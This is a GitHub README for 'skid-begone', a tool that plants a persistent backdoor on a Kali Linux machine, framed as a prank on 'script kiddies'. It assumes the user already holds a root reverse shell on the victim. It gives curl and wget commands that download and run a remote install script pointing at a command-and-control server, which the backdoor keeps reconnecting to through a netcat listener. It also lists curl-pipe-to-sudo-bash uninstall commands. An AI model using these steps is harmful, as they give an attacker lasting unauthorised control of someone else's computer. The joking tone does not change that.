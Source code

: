 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command an control server" I mean a server listening on the specified port with netcat.

### Uninstalling

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | sudo bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | sudo bash
```